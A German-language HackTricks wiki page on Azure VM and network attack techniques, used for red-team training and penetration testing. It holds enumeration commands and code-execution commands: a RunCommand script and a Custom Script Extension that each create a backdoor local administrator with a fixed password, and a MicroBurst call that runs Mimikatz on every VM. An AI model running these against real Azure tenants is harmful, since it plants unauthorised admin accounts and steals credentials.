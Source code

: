 # Az - Virtuelle Maschinen & Netzwerk

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure-virtuelle Maschinen sind eine von mehreren Arten von [on-demand, skalierbaren Rechenressourcen](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), die Azure anbietet. Typischerweise wählst du eine virtuelle Maschine, wenn du mehr Kontrolle über die Rechenumgebung benötigst, als die anderen Optionen bieten. Dieser Artikel gibt dir Informationen darüber, was du beachten solltest, bevor du eine virtuelle Maschine erstellst, wie du sie erstellst und wie du sie verwaltest.

## Azure Netzwerk Informationen

Azure-Netzwerke enthalten **verschiedene Entitäten und Möglichkeiten, sie zu konfigurieren.** Du findest eine kurze **Beschreibung,** **Beispiele** und **Aufzählungs**befehle der verschiedenen Azure-Netzwerkinstanzen in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bietet eine sichere, vollständig verwaltete RDP (Remote Desktop Protocol) und SSH (Secure Shell) Zugangs-Lösung über SSL über das Azure-Portal. Es ist in ein Azure Virtual Network integriert, was RDP- und SSH-Konnektivität zu VMs über private IPs ermöglicht und die Notwendigkeit öffentlicher IPs vermeidet. Dies macht es zu einer sichereren, bequemeren Alternative zu traditionellen Methoden, die öffentliche IP-Zuweisungen und NSG-Regelkonfigurationen für den VM-Zugriff beinhalten. Entwickler und IT-Personal können sicher auf VMs über das Azure-Portal mit ihren Webbrowsern zugreifen, was den Prozess für Entwicklungs- und Testumgebungen optimiert.

Um alle Azure Bastion-Hosts in deinem Abonnement aufzulisten, kannst du den folgenden Befehl verwenden:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Aufzählung
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Befehle in einer VM ausführen**

### **AAD-Anmeldung in der VM**

Es ist möglich, Benutzern, die über AzureAD authentifiziert sind, Zugriff zu gewähren. Zum Beispiel beim Versuch, auf eine **Linux-VM** zuzugreifen: `ssh username@azure-corp.com@1.1.1.1` (es ist wichtig, die **E-Mail** mit dem verwendeten azurecorp beim Anmeldeversuch zu verwenden), könnte ein Fehler auftreten wie:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Befolgen Sie einfach **diese Anweisungen**, indem Sie zu [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) gehen und den Code angeben, verwenden Sie die E-Mail und das Passwort als Anmeldeinformationen, und Sie können sich über SSH verbinden (wenn dieser Benutzer über ausreichende Berechtigungen verfügt: `Virtual Machine Administrator Login` oder `Virtual Machine User Login` Rolle).

### **Befehl ausführen**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Führen Sie die benutzerdefinierte Skripterweiterung aus**

Azure-virtuelle Maschinen (VM) Erweiterungen sind **kleine Anwendungen**, die Konfigurations- und Automatisierungs-**aufgaben** nach der Bereitstellung auf **Azure VMs** bereitstellen. Wenn beispielsweise eine virtuelle Maschine die Installation von Software, den Schutz durch Antivirenprogramme oder die Möglichkeit benötigt, ein Skript darin auszuführen, können Sie eine VM-Erweiterung verwenden.

Daher, wenn Sie Zugriff haben, um es zu schreiben, können Sie beliebigen Code ausführen:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ist ein PowerShell-Tool, das Ansible ähnlich ist und zum Einrichten eines Hosts durch Code verwendet wird. DSC integriert sich mit Azure und ermöglicht das Hochladen spezifischer Konfigurationsdateien. Diese Dateien müssen einer strengen Syntax entsprechen. Bemerkenswert ist, dass die DSC-Erweiterung in Azure Befehle aus Dateien ausführen kann, die bestimmten Formatierungskriterien entsprechen, auch wenn die Syntax nicht den DSC-Standards entspricht, wie in der bereitgestellten Abbildung gezeigt.

Die Ausführung dieser Befehle wird durch die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) Funktion in Az PowerShell erleichtert. Die Anforderungen umfassen eine **.PS1**-Datei mit einer definierten Funktion, und die Datei muss in eine **.zip**-Datei gepackt werden. Auch wenn die Syntax möglicherweise nicht korrekt für DSC ist, wird der Code dennoch ausgeführt. Die Erweiterung wird jedoch den Ausführungsstatus als "Fehler" markieren, und keine Ausgabe des Befehls wird sichtbar sein, da der Status durch die Fehlermeldung überschrieben wird.

### VM Application Definitions

VM Application Definitions ermöglichen die wiederholbare Bereitstellung von versionierten Anwendungen auf einer Azure-VM. Diese Ressource unterstützt die Bereitstellung und Aktualisierung von Anwendungen über VMs hinweg. Um dies einzurichten, sind mehrere Schritte erforderlich, die Befehle wie **`New-AzGalleryApplication`** und **`New-AzGalleryApplicationVersion`** in Az PowerShell umfassen.

Die Ausführung von Anwendungen oder Befehlen über diese Methode erfolgt über die **"VMAppExtension"**, die automatisch installiert wird, wenn eine Anwendung auf eine VM angewendet wird. Die Erweiterung ruft die Datei von der angegebenen URI ab und benennt sie genau wie die Anwendung, ohne eine Erweiterung. Um die Datei korrekt auszuführen, muss das Feld "ManageActions" im REST-API-Aufruf so konfiguriert werden, dass die Datei mit der entsprechenden Erweiterung umbenannt wird. Die Einrichtung dieser Methode wird, sobald sie abgeschlossen ist, der in der bereitgestellten Abbildung gezeigten Struktur ähneln.

Diese Methode der Ausführung ist jedoch relativ langsam und benötigt etwa 3-4 Minuten, um eine Anwendung oder einen Befehl auszuführen. Die mit diesem Prozess verbundenen Dateien werden in spezifischen Verzeichnissen gespeichert (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` für die Anwendungsdatei und `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` für den Ausführungsstatus).

Beide Techniken bieten einzigartige Möglichkeiten zur Ausführung von Befehlen und zur Bereitstellung von Anwendungen in Azure-Umgebungen, jede mit ihren eigenen Anforderungen, Schritten und Überlegungen.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sind eine Funktion in Azure, die es ermöglicht, Runbooks, die in einem Automatisierungskonto konfiguriert sind, auf einer Azure-VM (VM) auszuführen, die Teil der vorgesehenen HWG ist. Diese Ausführung wird durch eine auf der VM installierte Erweiterung erleichtert, die den Runbook-Code auf die VM bereitstellt. Ein wesentlicher Aspekt dieses Prozesses ist, dass die tatsächlichen Anmeldeinformationen bei der Ausführung keine Rolle spielen, da der Code mit erhöhten Rechten, speziell als **SYSTEM** oder root, ausgeführt wird, wie in der bereitgestellten Abbildung veranschaulicht.

Ein wichtiger Punkt für diejenigen, die Windows 10 VMs nutzen, ist die Notwendigkeit, die PowerShell-Version für das Runbook anzugeben. Es sollte so eingestellt werden, dass es als PowerShell Version 5.1 und nicht 7.1 ausgeführt wird. Diese Anforderung ergibt sich aus der Tatsache, dass PowerShell 7.1 standardmäßig nicht auf diesen VMs installiert ist, was zu einem Fehler bei der Skriptausführung führt, wenn Version 7.1 angegeben wird.

Dieses Feature von Azure bietet eine robuste Methode zur Automatisierung und Verwaltung von Aufgaben in hybriden Umgebungen und ermöglicht eine zentrale Verwaltung und Ausführung von Aufgaben auf Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

